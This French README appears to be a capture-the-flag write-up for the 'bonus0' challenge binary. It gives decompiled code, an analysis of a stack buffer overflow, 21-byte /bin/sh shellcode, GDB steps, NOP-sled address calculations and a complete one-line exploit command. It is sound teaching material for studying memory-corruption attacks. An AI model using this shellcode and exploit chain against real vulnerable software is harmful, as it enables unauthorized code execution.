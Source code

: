 # Exploit détaillé pour bonus0

## Description du problème

Le binaire bonus0 présente une vulnérabilité de débordement de tampon. Il lit deux entrées utilisateur et les concatène de manière non sécurisée, permettant d'écraser l'adresse de retour sur la pile.

## Caractéristiques du binaire

- Pas de protection RELRO
- Pas de canary sur la pile
- NX désactivé (permet l'exécution de code sur la pile)
- Pas de PIE (les adresses sont prévisibles)

## Code décompilé

```c
void p(char *param_1, char *param_2)
{
  char *pcVar1;
  char local_100c [4104];
  
  puts(param_2);
  read(0, local_100c, 0x1000);
  pcVar1 = strchr(local_100c, 10);
  *pcVar1 = '\0';
  strncpy(param_1, local_100c, 0x14);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];
  
  bVar4 = 0;
  p(local_34, &DAT_080486a0);
  p(local_20, &DAT_080486a0);
  strcpy(param_1, local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
  strcat(param_1, local_20);
  return;
}

undefined4 main(void)
{
  char local_3a [54];
  
  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

## Analyse du code

- La fonction `p` lit jusqu'à 4096 octets d'entrée dans un buffer local, puis copie 20 octets dans le paramètre fourni.
- La fonction `pp` appelle `p` deux fois, stockant les résultats dans des buffers locaux de 20 octets chacun.
- `pp` concatène ensuite ces deux buffers dans le paramètre fourni, avec un espace entre eux.
- La fonction `main` appelle `pp` avec un buffer local de 54 octets.

La vulnérabilité principale réside dans le fait que `strncpy` dans `p` ne garantit pas la terminaison de la chaîne, et que `strcpy` et `strcat` dans `pp` peuvent écrire au-delà des limites du buffer `local_3a` dans `main`.

## Shellcode utilisé

```
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

Ce shellcode de 21 octets exécute `/bin/sh`.

[Le reste du README reste inchangé...]

## Structure de l'exploit

1. Première entrée : NOP sled (100 octets) + Shellcode (21 octets)
2. Deuxième entrée : Padding (9 octets) + Adresse de retour (4 octets) + Remplissage (7 octets)

## Importance du NOP sled

Le NOP sled est une série d'instructions "No Operation" (\x90 en hexadécimal) placée avant le shellcode. Son importance est cruciale :

- Chaque NOP ne fait rien et passe à l'instruction suivante.
- Cette série crée une "glissade" vers notre shellcode.
- Peu importe où dans cette glissade on atterrit, on finira par atteindre le shellcode.
- Cette technique augmente considérablement la probabilité de succès de l'exploit, même si l'adresse de retour varie légèrement.

## Étapes détaillées de l'exploitation

1. Analyse du binaire avec GDB :
   ```
   gdb ./bonus0
   (gdb) disass main
   (gdb) disass p
   (gdb) b *p+28
   (gdb) run
   (gdb) x $ebp-0x1008
   ```
   Cela révèle l'adresse du buffer, par exemple 0xbfffe680.

2. Calcul de la plage d'adresses sûre pour le NOP sled :
   - Début : 0xbfffe680 + 61 = 0xbfffe6bd (61 octets pour les arguments et l'espace)
   - Fin : 0xbfffe680 + 100 = 0xbfffe6e4 (100 est la taille du NOP sled)

3. Construction de l'exploit :
   - Première entrée : 
     100 NOPs (\x90) suivis du shellcode de 21 octets
   - Deuxième entrée : 
     9 octets de padding ('A'), adresse de retour, 7 octets de remplissage ('B')

## Commande d'exploitation

```bash
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

## Adresses de retour possibles

- 0xbfffe6d0 (\xd0\xe6\xff\xbf)
- 0xbfffe6c0 (\xc0\xe6\xff\xbf)
- 0xbfffe6e0 (\xe0\xe6\xff\xbf)
- 0xbfffe6a0 (\xa0\xe6\xff\xbf)

Toutes ces adresses sont dans la plage du NOP sled, augmentant les chances de succès de l'exploit.

## Fonctionnement détaillé de l'exploit

1. La première entrée place le NOP sled (100 octets) suivi du shellcode (21 octets) en mémoire.
2. La deuxième entrée écrase l'adresse de retour pour pointer vers une adresse dans le NOP sled.
3. Lors du retour de la fonction, l'exécution saute à l'adresse spécifiée dans le NOP sled.
4. Les instructions NOP sont exécutées une par une, "glissant" jusqu'au shellcode.
5. Le shellcode s'exécute, lançant un shell avec les privilèges de bonus1.

## Pourquoi cela fonctionne

- NX est désactivé, permettant l'exécution de code sur la pile.
- Pas de canary sur la pile, permettant l'écrasement de l'adresse de retour.
- Le grand NOP sled offre une large "cible" pour notre adresse de retour.
- Même si l'adresse varie légèrement, tant qu'elle pointe dans le NOP sled, l'exploit réussira.

## Variabilité et robustesse

- L'adresse exacte peut varier selon l'environnement d'exécution.
- Le NOP sled rend l'exploit plus robuste face à ces variations.
- Tester différentes adresses dans la plage du NOP sled peut être nécessaire.

